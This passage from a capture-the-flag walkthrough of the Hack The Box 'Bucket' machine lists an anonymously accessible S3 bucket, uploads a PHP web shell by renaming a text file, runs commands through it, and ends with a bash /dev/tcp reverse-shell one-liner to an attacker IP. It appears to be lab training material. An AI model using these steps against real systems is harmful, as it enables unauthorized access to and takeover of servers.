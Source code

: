 - Well it looks like it allows anonymous access
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls
2023-11-08 14:11:03 adserver

```
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver
                           PRE images/
2023-11-08 14:13:04       5344 index.html
```
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/images/
2023-11-08 14:15:04      37840 bug.jpg
2023-11-08 14:15:04      51485 cloud.png
2023-11-08 14:15:04      16486 malware.png
```

- We can check `cp` command and try to upload `php` webshell
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp cmd.php s3://adserver/cmd.php
upload: ./shell.php to s3://adserver/shell.php 
```
```
└─$ curl http://bucket.htb/cmd.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
</body></html>
```

- Maybe it doesn't allow `php` extensions
  - We could try to upload `txt` file but save it as `php`
  - Note: I tried `shell.<EXTENSION>`, didn't work
    - `shell` probably blacklisted or it got erased (since there's a cleanup script running)
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp cmd.txt s3://adserver/cmd.php 
upload: ./cmd.txt to s3://adserver/cmd.php 
```
```
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/               
                           PRE images/
2023-11-08 14:20:01         35 cmd.php
2023-11-08 14:19:04       5344 index.html
```
```
└─$ curl http://bucket.htb/cmd.php?cmd=id                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
```
└─$ curl http://bucket.htb/cmd.php --data-urlencode 'cmd=bash -c "/bin/bash -i >& /dev/tcp/10.10.16.4/6666 0>&1"'                        
```
